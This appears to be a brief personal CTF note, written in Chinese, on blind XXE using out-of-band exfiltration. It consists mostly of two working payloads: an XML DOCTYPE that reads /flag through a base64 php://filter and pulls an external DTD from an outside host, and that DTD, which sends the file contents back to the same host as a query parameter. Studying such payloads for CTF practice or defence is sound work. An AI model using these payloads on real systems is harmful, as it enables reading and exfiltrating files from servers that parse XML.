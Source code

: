 tags:: CTF/XXE

- # 思路
	- 无回显XXE [[CTFWEB/XXE]]
	- 利用OOB
- # Payload
	- 受害者
		- ```xml
		  <!DOCTYPE updateProfile [
		      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
		      <!ENTITY % dtd SYSTEM "http://ca.xxx.xyz:3001/evil.dtd">
		      %dtd;
		      %send;
		  ]>
		  ```
	- 服务器
		- ```dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```